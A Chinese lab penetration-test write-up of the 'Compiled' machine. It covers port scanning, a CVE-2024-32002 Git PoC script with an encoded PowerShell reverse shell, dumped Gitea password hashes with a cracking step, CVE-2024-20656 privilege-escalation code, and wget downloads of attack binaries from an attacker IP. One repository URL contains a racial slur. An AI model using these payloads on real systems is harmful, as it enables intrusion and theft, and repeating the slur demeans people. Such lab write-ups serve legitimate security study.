# 记一次渗透测试实战之Compiled-先知社区

> **来源**: https://xz.aliyun.com/news/16505  
> **文章ID**: 16505

---

# 一、信息收集

## 端口扫描

使用nmap进行端口探测，发现存在5000、7680端口开放。



发现存在3000、5000、5985、7680端口开放。



发现存在5000端口开放，访问之后发现是一共登录界面。


## SSRF漏洞

测试ssrf漏洞。



发现只能提交http协议的网站。



提交一下进行测试，发现不能



访问其他页面，发现404 NOT found。





访问3000端口。



发现存在gitee网站。



然后发现部署了5000端口的网站。

# 二、漏洞利用

## CVE-2024-32002

### 漏洞原理：

当受害者以递归方式克隆恶意存储库时，就会发生漏洞利用，从而执行子模块中包含的钩子。该漏洞存在于 Git 处理存储库子模块中的符号链接的方式中。目前有多个 PoC 公开了该漏洞的利用程序。



漏洞复现：  
注册一个账号。



然后申请2个库。  
1个为abc，另一个为acd





编写poc

```
#!/bin/bash

git config --global protocol.file.allow always
git config --global core.symlinks true
git config --global init.defaultBranch main

rm -rf repo1
rm -rf repo2

git clone http://gitea.compiled.htb:3000/xxxxxxxxx/repo1.git
cd repo1
mkdir -p y/hooks
cat > y/hooks/post-checkout <<EOF
#!bin/sh.exe
powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA2AC4AMgAiACwAMQA0ADUAMQA0ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==
EOF
chmod +x y/hooks/post-checkout
git add y/hooks/post-checkout
git commit -m "post-checkout"
git push
cd ..

git clone http://gitea.compiled.htb:3000/celesian_nlte_cheating_niggers/repo2.git
cd repo2
git submodule add --name x/y "http://gitea.compiled.htb:3000/xxxxxxxxxx/repo1.git" A/modules/x
git commit -m "add-submodule"
printf ".git" > dotgit.txt
git hash-object -w --stdin < dotgit.txt > dot-git.hash
printf "120000 %s 0\ta\n" "$(cat dot-git.hash)" > index.info
git update-index --index-info < index.info

git commit -m "add-symlink"
git push
```

修改关键地址等。



然后执行，之后在5000这个端口处进行提交。



### 手动验证

创建2个库repo1、repo2



创建一个y/hooks目录，并post-checkout在其中创建一个脚本



使用 Bash 反向 shel



创建第二个库，然后克隆到主机中。



引用了本地存储库，但后来将其编辑为远程存储库。我将直接转到远程引用。  
创建符号链接：



尝试反弹shell，成功获取shell。



### PowerShell



# 三、内网信息收集

查看1.ssh文件。



## 文件枚举



## 数据库枚举

发现数据库是 SQLite 文件。

```
select * from user;
id|lower_name|name|full_name|email|keep_email_private|email_notifications_preference|passwd|passwd_hash_algo|must_change_password|login_type|login_source|login_name|type|location|website|rands|salt|language|description|created_unix|updated_unix|last_login_unix|last_repo_visibility|max_repo_creation|is_active|is_admin|is_restricted|allow_git_hook|allow_import_local|allow_create_organization|prohibit_login|avatar|avatar_email|use_custom_avatar|num_followers|num_following|num_stars|num_repos|num_teams|num_members|visibility|repo_admin_change_team_access|diff_view_style|theme|keep_activity_private
1|administrator|administrator||administrator@compiled.htb|0|enabled|1bf0a9561cf076c5fc0d76e140788a91b5281609c384791839fd6e9996d3bbf5c91b8eee6bd5081e42085ed0be779c2ef86d|pbkdf2$50000$50|0|0|0||0|||6e1a6f3adbe7eab92978627431fd2984|a45c43d36dce3076158b19c2c696ef7b|en-US||1716401383|1716669640|1716669640|0|-1|1|1|0|0|0|1|0||administrator@compiled.htb|0|0|0|0|0|0|0|0|0||arc-green|0
2|richard|richard||richard@compiled.htb|0|enabled|4b4b53766fe946e7e291b106fcd6f4962934116ec9ac78a99b3bf6b06cf8568aaedd267ec02b39aeb244d83fb8b89c243b5e|pbkdf2$50000$50|0|0|0||0|||2be54ff86f147c6cb9b55c8061d82d03|d7cf2c96277dd16d95ed5c33bb524b62|en-US||1716401466|1720089561|1720089548|0|-1|1|0|0|0|0|1|0||richard@compiled.htb|0|0|0|0|2|0|0|0|0||arc-green|0
4|emily|emily||emily@compiled.htb|0|enabled|97907280dc24fe517c43475bd218bfad56c25d4d11037d8b6da440efd4d691adfead40330b2aa6aaf1f33621d0d73228fc16|pbkdf2$50000$50|1|0|0||0|||0056552f6f2df0015762a4419b0748de|227d873cca89103cd83a976bdac52486|||1716565398|1716567763|0|0|-1|1|0|0|0|0|1|0||emily@compiled.htb|0|0|0|0|0|0|0|2|0||arc-green|0
6|0xdf|0xdf||0xdf@compiled.htb|0|enabled|16d47698acf90f528436af0be7e1511722f6a8fa386ae9069de8cd37515dcd06b0d1eece19301077159b8349640efce856ae|pbkdf2$50000$50|0|0|0||0|||889dab110298e54d01216be5ed8dbf0d|47ca2228e32cf440c431972244fca55f|en-US||1722353741|1722353814|1722353741|0|-1|1|0|0|0|0|1|0||0xdf@compiled.htb|0|0|0|0|2|0|0|0|0||arc-green|0
select name, passwd, passwd_hash_algo from user;
name|passwd|passwd_hash_algo
administrator|1bf0a9561cf076c5fc0d76e140788a91b5281609c384791839fd6e9996d3bbf5c91b8eee6bd5081e42085ed0be779c2ef86d|pbkdf2$50000$50
richard|4b4b53766fe946e7e291b106fcd6f4962934116ec9ac78a99b3bf6b06cf8568aaedd267ec02b39aeb244d83fb8b89c243b5e|pbkdf2$50000$50
emily|97907280dc24fe517c43475bd218bfad56c25d4d11037d8b6da440efd4d691adfead40330b2aa6aaf1f33621d0d73228fc16|pbkdf2$50000$50
0xdf|16d47698acf90f528436af0be7e1511722f6a8fa386ae9069de8cd37515dcd06b0d1eece19301077159b8349640efce856ae|pbkdf2$50000$50
sqlite3 gitea.db "select passwd from user" | while read hash; do echo "$hash" | xxd -r -p | base64; done
G/CpVhzwdsX8DXbhQHiKkbUoFgnDhHkYOf1umZbTu/XJG47ua9UIHkIIXtC+d5wu+G0=
S0tTdm/pRufikbEG/Nb0lik0EW7JrHipmzv2sGz4Voqu3SZ+wCs5rrJE2D+4uJwkO14=
l5BygNwk/lF8Q0db0hi/rVbCXU0RA32LbaRA79TWka3+rUAzCyqmqvHzNiHQ1zIo/BY=
FtR2mKz5D1KENq8L5+FRFyL2qPo4aukGnejNN1FdzQaw0e7OGTAQdxWbg0lkDvzoVq4=
```


发现很多表格。



user有密码哈希值  
Gitea Hash破解  
可以看出盐和摘要采用的是 base64 格式，而不是十六进制。



## 获取 Emily 权限

## CVE-2024-20656

利用过程：

```
创建一个虚拟目录，VSStandardCollectorService150将在其中写入文件。
创建一个指向新创建目录的连接目录。
通过创建新的诊断会话来触发VSStandardCollectorService150服务。
等待<GUID>.scratch目录创建并创建Report.<GUID>.diagsession指向的新对象管理器符号链接C:\\ProgramData。
停止诊断会话。
等待Report.<GUID>.diagsession文件移动到父目录并切换连接目录以指向\\RPC Control我们的符号链接正在等待的位置。
睡眠 5 秒（不是很重要，但就留在那里）。
切换连接目录以指向虚拟目录。
开始新的诊断会话。
等待<GUID>.scratch目录创建并创建Report.<GUID>.diagsession指向的新对象管理器符号链接C:\\ProgramData\\Microsoft
停止诊断会话。
等待Report.<GUID>.diagsession文件移动到父目录并切换连接目录以指向\\RPC Control我们的符号链接正在等待的位置。
权限改变后，我们删除C:\\ProgramData\\Microsoft\\VisualStudio\\SetupWMI\\MofCompiler.exe二进制文件。
找到并运行Setup WMI provider修复模式。
等待MofCompiler.exe安装程序创建我们的新二进制文件并将其替换为 cmd.exe
获取 SYSTEM shell
```



POC修改

```
WCHAR cmd[] = L"C:\\Program Files (x86)\\Microsoft Visual Studio\\2019\\Community\\Team Tools\\DiagnosticsHub\\Collector\\VSDiagnostics.exe";
void cb1()
{
    printf("[*] Oplock!\n");
    while (!Move(hFile2)) {}
    printf("[+] File moved!\n");
    CopyFile(L"c:\\windows\\system32\\cmd.exe", L"C:\\ProgramData\\Microsoft\\VisualStudio\\SetupWMI\\MofCompiler.exe", FALSE);
    finished = TRUE;
}
void cb1()
{
    printf("[*] Oplock!\n");
    while (!Move(hFile2)) {}
    printf("[+] File moved!\n");
    CopyFile(L"c:\\programdata\\r.exe", L"C:\\ProgramData\\Microsoft\\VisualStudio\\SetupWMI\\MofCompiler.exe", FALSE);
    finished = TRUE;
}
```







## 文件编译





文件配置。





## 工具下载

使用wget命令下载攻击脚本。  
wget 10.10.1633/Expl.exe -outfile e.exe  
wget 10.10.16.33/rev-444.exe -outfile r.exe



# 四、获取root权限

运行之后，成功获取root权限。


